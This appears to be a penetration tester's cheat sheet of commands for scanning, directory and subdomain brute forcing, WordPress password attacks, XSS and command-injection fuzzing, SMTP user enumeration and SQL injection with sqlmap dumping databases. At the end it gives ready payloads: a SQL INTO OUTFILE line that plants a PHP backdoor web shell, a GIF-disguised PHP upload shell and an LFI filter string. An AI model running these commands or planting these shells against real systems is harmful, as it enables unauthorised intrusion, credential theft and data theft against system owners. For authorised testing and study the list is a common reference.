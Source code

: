 ## Nmap
nmap -p- -sT -sV -A $IP
nmap -p- -sC -sV $IP --open
nmap -p- --script=vuln $IP

## HTTP-Methods
nmap --script http-methods --script-args http-methods.url-path='/website' <target>
nmap --script smb-enum-shares <target>

## sed IPs:
grep -oE '((1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.){3}(1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])' FILE
grep -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}' nmapfile.txt


## WPScan
wpscan --url $URL --disable-tls-checks --enumerate p --enumerate t --enumerate u
wpscan --url $URL --disable-tls-checks -U users -P /usr/share/wordlists/rockyou.txt
wpscan --url $URL --enumerate p --plugins-detection aggressive

## Nikto with SSL and Evasion
SEE EVASION MODALITIES.
nikto --host $IP -ssl -evasion 1

## dns_recon
dnsrecon –d yourdomain.comS

## gobuster directory
gobuster dir -u $URL -w raft-medium-directories.txt -k -t 30
gobuster dir -u $URL -w raft-medium-files.txt -k -t 30

## gobuster for SubDomain brute forcing:

gobuster dns -d domain.org -w subdomains-top1million-110000.txt -t 30

"just make sure any DNS name you find resolves to an in-scope address before you test it"

## Wfuzz XSS Fuzzing
wfuzz -c -z file,/opt/SecLists/Fuzzing/XSS/XSS-BruteLogic.txt "$URL"
wfuzz -c -z file,/opt/SecLists/Fuzzing/XSS/XSS-Jhaddix.txt "$URL"

wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://192.168.56.125/cgi-bin/FUZZ

===COMMAND INJECTION WITH POST DATA
wfuzz -c -z file,/opt/SecLists/Fuzzing/command-injection-commix.txt -d "doi=FUZZ" "$URL"

===Test for Paramter Existence!
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt "$URL"

===AUTHENTICATED FUZZING DIRECTORIES:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt --hc 404 -d "SESSIONID=value" "$URL"

===AUTHENTICATED FILE FUZZING:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-medium-files.txt --hc 404 -d "SESSIONID=value" "$URL"

===FUZZ Directories:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "$URL"

===FUZZ FILES:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-words.txt --hc 404 "$URL"
wfuzz -c -z file,/opt/SecLists/Usernames/top-usernames-shortlist.txt --hc 404,403 "$URL"

## Command Injection with commix, ssl, waf, random agent.

commix --url="https://supermegaleetultradomain.com?parameter=" --level=3 --force-ssl --skip-waf --random-agent

## SQLMap

sqlmap -u $URL --threads=2 --time-sec=10 --level=2 --risk=2 --technique=T --force-ssl
sqlmap -u $URL --threads=2 --time-sec=10 --level=4 --risk=3 --dump
/SecLists/Fuzzing/alphanum-case.txt


## Social Recon
theharvester -d domain.org -l 500 -b google

## Nmap HTTP-methods
nmap -p80,443 --script=http-methods <ip> --script-args http-methods.url-path='/directory/goes/here'

## SMTP USER ENUM

smtp-user-enum -M VRFY -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M EXPN -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M RCPT -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M EXPN -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP


## Command Execution Verification - [Ping check]
tcpdump -i any -c5 icmp

## Check Network
netdiscover /r 0.0.0.0/24

## INTO OUTFILE D00R

SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/WEROOT/backdoor.php";



## LFI?

#PHP Filter Checks.
php://filter/convert.base64-encode/resource=

## UPLOAD IMAGE?
GIF89a1
<?php system($_POST["cmd"]); ?>


